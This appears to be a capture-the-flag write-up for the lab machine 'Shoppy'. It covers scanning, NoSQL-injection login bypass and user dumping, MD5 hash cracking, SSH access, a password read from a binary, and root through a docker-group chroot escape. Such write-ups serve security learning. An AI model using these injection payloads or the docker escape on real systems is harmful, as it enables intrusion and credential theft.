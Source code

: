 # easy - Shoppy

## User flag

Ports scanning:

```bash
» sudo nmap --open --min-rate 5000 -T4 -Pn -p- 10.129.227.233
...
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9093/tcp open  copycat
```

Scanning subdomains:

```bash
» gobuster vhost \
	-w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt \
	--append-domain -t 50 -u shoppy.htb
	
...
Found: mattermost.shoppy.htb Status: 200 [Size: 3122]
...
```

Scanning paths:

```bash
» wfuzz -c -z \
	file,/usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt \
	--hc 404 "http://shoppy.htb/FUZZ/"
...
...
000000003:   302        0 L      4 W        28 Ch       "admin"
000000039:   200        25 L     62 W       1074 Ch     "login"
000000109:   302        0 L      4 W        28 Ch       "Admin"
000000160:   200        25 L     62 W       1074 Ch     "Login"
000000681:   302        0 L      4 W        28 Ch       "ADMIN"
000016032:   200        25 L     62 W       1074 Ch     "LOGIN"

```

Found this login page:

![image-20221202002040156](../../../images/articles/shoppy/image-20221202002040156.png)

By passed by injecting a nosqli: `admin' || '1==1%00`

![image-20221202002941291](../../../images/articles/shoppy/image-20221202002941291.png)

Inyecting a nosqli on the "Search for users" form: `http://shoppy.htb/admin/search-users?username=foo' || '1==1`

And the web response:

```json
[
  {
    "_id": "62db0e93d6d6a999a66ee67a",
    "username": "admin",
    "password": "23c6877d9e2b564ef8b32c3a23de27b2"
  },
  {
    "_id": "62db0e93d6d6a999a66ee67b",
    "username": "josh",
    "password": "6ebcea65320589ca4f2f1ce039975995"
  }
]
```

Cracking passwords:

```bash
» hashcat -m 0 -a 0 --show hashes.txt /usr/share/dict/rockyou.txt
6ebcea65320589ca4f2f1ce039975995:remembermethisway
```

Found a mattermost hosted page:

![image-20221202010352150](../../../images/articles/shoppy/image-20221202010352150.png)

Logging in with Josh creds:

![image-20221202010424771](../../../images/articles/shoppy/image-20221202010424771.png)

Got a shell:

```bash
» ssh jaeger@10.129.227.233
jaeger@10.129.227.233's password:
...
jaeger@shoppy:~$ id
uid=1000(jaeger) gid=1000(jaeger) groups=1000(jaeger)
```

## Root flag

Finding something to escalate:

```bash
jaeger@shoppy:~$ sudo -l
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
    
    
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: test
Access denied! This incident will be reported !
```

The binary itself contains a password:

```bash
jaeger@shoppy:~$ xxd /home/deploy/password-manager | grep -A 5 -i pass
00002020: 7061 7373 776f 7264 206d 616e 6167 6572  password manager
00002030: 2100 0000 0000 0000 506c 6561 7365 2065  !.......Please e
00002040: 6e74 6572 2079 6f75 7220 6d61 7374 6572  nter your master
00002050: 2070 6173 7377 6f72 643a 2000 0053 0061   password: ..S.a
00002060: 006d 0070 006c 0065 0000 0000 0000 0000  .m.p.l.e........
00002070: 4163 6365 7373 2067 7261 6e74 6564 2120  Access granted!
00002080: 4865 7265 2069 7320 6372 6564 7320 2100  Here is creds !.
00002090: 6361 7420 2f68 6f6d 652f 6465 706c 6f79  cat /home/deploy
000020a0: 2f63 7265 6473 2e74 7874 0000 0000 0000  /creds.txt......

jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!

jaeger@shoppy:~$ su deploy
Password:
$ bash
deploy@shoppy:/home/jaeger$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```

Notice we are in the docker group:

```bash
deploy@shoppy:~$ docker ps
CONTAINER ID   IMAGE     COMMAND   CREATED   STATUS    PORTS     NAMES
```

And thanks to https://gtfobins.github.io/gtfobins/docker/#shell :

```bash
deploy@shoppy:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# bash
root@571da5033eb9:/# ls ~/
root.txt
```


